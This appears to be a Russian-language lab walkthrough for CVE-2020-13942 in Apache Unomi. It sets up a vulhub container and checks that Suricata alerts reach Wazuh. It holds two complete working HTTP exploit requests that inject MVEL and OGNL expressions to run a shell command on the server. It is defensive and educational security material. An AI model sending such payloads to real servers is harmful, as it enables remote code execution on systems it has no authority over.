


# CVE-2020-13942

### Материалы:

* [https://nvd.nist.gov/vuln/detail/CVE-2020-13942](https://nvd.nist.gov/vuln/detail/CVE-2020-13942)
* [https://www.opencve.io/cve/CVE-2020-13942](https://www.opencve.io/cve/CVE-2020-13942)

Apache Unomi — это платформа данных о клиентах с открытым исходным кодом Java, сервер Java, предназначенный для управления данными о клиентах, потенциальных клиентах и ​​посетителях, а также для персонализации обслуживания клиентов. В версиях до 1.5.1 Apache Unomi позволял злоумышленникам отправлять вредоносные запросы с выражениями MVEL и OGNL, которые могли содержать произвольные классы, что приводило к удаленному выполнению кода (RCE) с привилегиями приложения Unomi.

### Эксплуатация уязвимости

> Контейнер с уязвимой средой находится в директории /home/user/Hackathon/vulhub-master/unomi/CVE-2020-13942

Для запуска уязвимой среды выоплните команду:

```
docker compose up -d
```

После запуска по адресу http://ваш-ip:8181 будет доступна стандартная страница Apache Unomi

<figure><figcaption></figcaption></figure>

Выполнение произвольных команд через выражения MVEL:

```
POST /context.json HTTP/1.1
Host: ваш-ip:8181
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 483

{
    "filters": [
        {
            "id": "sample",
            "filters": [
                {
                    "condition": {
                         "parameterValues": {
                            "": "script::Runtime r = Runtime.getRuntime(); r.exec(\"touch /tmp/mvel\");"
                        },
                        "type": "profilePropertyCondition"
                    }
                }
            ]
        }
    ],
    "sessionId": "sample"
}
```

Выполнение произвольных команд через выражения OGNL:

```
POST /context.json HTTP/1.1
Host: ваш-ip:8181
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 1060

{
  "personalizations":[
    {
      "id":"gender-test",
      "strategy":"matching-first",
      "strategyOptions":{
        "fallback":"var2"
      },
      "contents":[
        {
          "filters":[
            {
              "condition":{
                "parameterValues":{
                  "propertyName":"(#runtimeclass = #this.getClass().forName(\"java.lang.Runtime\")).(#getruntimemethod = #runtimeclass.getDeclaredMethods().{^ #this.name.equals(\"getRuntime\")}[0]).(#rtobj = #getruntimemethod.invoke(null,null)).(#execmethod = #runtimeclass.getDeclaredMethods().{? #this.name.equals(\"exec\")}.{? #this.getParameters()[0].getType().getName().equals(\"java.lang.String\")}.{? #this.getParameters().length < 2}[0]).(#execmethod.invoke(#rtobj,\"touch /tmp/ognl\"))",
                  "comparisonOperator":"equals",
                  "propertyValue":"male"
                },
                "type":"profilePropertyCondition"
              }
            }
          ]
        }
      ]
    }
  ],
  "sessionId":"sample"
}
```

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><figcaption></figcaption></figure>
